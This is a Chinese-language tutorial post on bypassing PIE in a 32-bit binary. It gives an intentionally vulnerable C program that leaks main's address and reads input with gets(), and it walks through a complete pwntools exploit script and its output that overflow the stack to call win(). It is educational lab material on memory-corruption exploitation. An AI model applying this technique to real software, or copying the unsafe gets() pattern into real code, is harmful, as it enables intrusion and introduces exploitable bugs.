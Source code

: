 ```yaml
---
title: '利用已泄漏信息绕过 PIE'
date: '2023-08-22'
lastmod: '2023-08-22'
tags: ['PWN', 'Stack']
draft: false
summary: '32-bit 与 64-bit 之间的差异'
authors: ['default']
---
```


<div className="border-solid border-2 border-surface0 dark:border-surface0-dark p-2 bg-base dark:bg-base-dark mt-5">
  <TOCInline toc={props.toc} asDisclosure />
</div>

## 0x01 源码

LINK

```c:source.c showLineNumbers
#include <stdio.h>

int main() {
  vuln();

  return 0;
}

void vuln() {
  char buffer[20];

  printf("Main Function is at: %lx\n", main);

  gets(buffer);
}

void win() {
  puts("PIE bypassed! Great job :D");
}
```

程序输出 `main` 的地址，我们可以通过它来计算出基地址。然后我们可以利用这个基地址计算出 `win()` 的地址。

## 0x02 分析

让我们运行该脚本以确保它是正确的 :D

```
$ ./vuln-32
Main Function is at: 0x5655f1b9
```

正如我们所期望的，它打印了 `main` 的地址。

## 0x03 利用

首先，让我们设置脚本。创建一个 `ELF` 对象（稍后会变得非常有用），然后启动该进程。

```python showLineNumbers
from pwn import *

context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()
```

现在我们要获取 `main` 函数的地址。为此，我们可以简单地接收它，然后读取。

```python showLineNumbers
p.recvuntil('at: ')
main = int(p.recvline(), 16)
```

<Note>
  由于我们接收了除地址之外的整行，因此只有地址才会出现在 `p.recvline()` 中。
</Note>

现在我们将使用之前创建的 `ELF` 对象并设置它的基地址。`sym` 存储的是函数的相对偏移量，我们只要用绝对地址减去相对偏移就可以得到基地址。

*设置基地址前 `sym` 字典中存储的是各函数的相对偏移量；设置基地址之后，`sym` 会变为存储各函数的绝对地址。*

```python showLineNumbers
elf.address = main - elf.sym['main']
```

在这个例子中，`elf.sym['main']` 将返回 `0x11b9`；如果我们设置基地址后再次运行它，它将返回 `0x11b9 + 基地址` 的值。本质上，我们是从泄漏的地址中减去 `main` 的偏移量，以获得二进制文件的基地址。

现在我们有了可以调用 `win()` 的基本信息，我们可以调用 `win()` 了：

```python showLineNumbers
payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

<Note>
  我假设你知道如何找到溢出 Padding 以及其他内容，因此我不会向你展示其中的每一步具体该怎么做，希望你能通过自己的能力解决它们。

  如果你不知道该怎么办，请先去看我之前写的文章，好好思考每一步为什么这样做，相信会有所帮助。
</Note>

```
$ python exp.py
[*] 'vuln-32'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process 'vuln-32': pid 147342
PIE bypassed! Great job :D
```

### 1x01 最终 Exploit

```python {title="exp.py"} showLineNumbers
from pwn import *

# context.log_level = 'debug'

elf = context.binary = ELF('./vuln-32')
p = process()

p.recvuntil('at: ')
main = int(p.recvline(), 16)

elf.address = main - elf.sym['main']

payload = b'A' * 32
payload += p32(elf.sym['win'])

p.sendline(payload)

p.interactive()
```

## 0x04 总结

通过泄漏的 `main` 地址，我们能够计算出二进制文件的基地址。由此我们可以计算出 `win` 的地址并调用它。

## 0x05 64-bit

自己尝试一下 64-bit 的版本该怎么绕过。

LINK

